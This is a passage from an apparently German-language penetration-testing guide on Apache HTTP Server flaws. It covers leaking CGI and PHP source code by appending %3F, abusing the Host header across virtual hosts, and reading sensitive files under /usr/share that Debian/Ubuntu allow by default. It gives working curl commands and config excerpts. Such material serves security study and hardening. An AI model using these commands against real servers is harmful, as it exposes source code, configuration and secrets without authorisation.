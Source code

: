 #### **Server-Seitige Quellcode-Offenlegung**

* **Offenlegung des CGI-Quellcodes**

Es reicht aus, ein %3F am Ende hinzuzufügen, um den Quellcode eines cgi-Moduls offenzulegen:
```bash
curl http://server/cgi-bin/download.cgi
# the processed result from download.cgi
curl http://server/html/usr/lib/cgi-bin/download.cgi%3F
# #!/usr/bin/perl
# use CGI;
# ...
# # the source code of download.cgi
```
* **PHP-Quellcode offenlegen**

Wenn ein Server verschiedene Domains hat, wobei eine davon eine statische Domain ist, kann dies ausgenutzt werden, um das Dateisystem zu durchlaufen und PHP-Code offenzulegen:
```bash
# Leak the config.php file of the www.local domain from the static.local domain
curl http://www.local/var/www.local/config.php%3F -H "Host: static.local"
# the source code of config.php
```
#### **Manipulation lokaler Gadgets**

Das Hauptproblem bei dem vorherigen Angriff ist, dass standardmäßig der Zugriff auf das Dateisystem in den meisten Fällen verweigert wird, wie in der [Konfigurationsvorlage](https://github.com/apache/httpd/blob/trunk/docs/conf/httpd.conf.in#L115) des Apache HTTP Servers:
```xml
<Directory />
AllowOverride None
Require all denied
</Directory>
```
Allerdings erlauben die Betriebssysteme [Debian/Ubuntu](https://sources.debian.org/src/apache2/2.4.62-1/debian/config-dir/apache2.conf.in/#L165) standardmäßig `/usr/share`:
```xml
<Directory /usr/share>
AllowOverride None
Require all granted
</Directory>
```
Daher wäre es möglich, **Dateien, die sich im Verzeichnis `/usr/share` in diesen Distributionen befinden, auszunutzen.**

**Lokales Gadget zur Informationsoffenlegung**

* **Apache HTTP Server** mit **websocketd** könnte das **dump-env.php**-Skript unter **/usr/share/doc/websocketd/examples/php/** exponieren, was sensible Umgebungsvariablen offenlegen kann.
* Server mit **Nginx** oder **Jetty** könnten sensible Informationen von Webanwendungen (z.B. **web.xml**) über ihre standardmäßigen Webwurzeln, die unter **/usr/share** platziert sind, exponieren:
* **/usr/share/nginx/html/**
* **/usr/share/jetty9/etc/**
* **/usr/share/jetty9/webapps/**
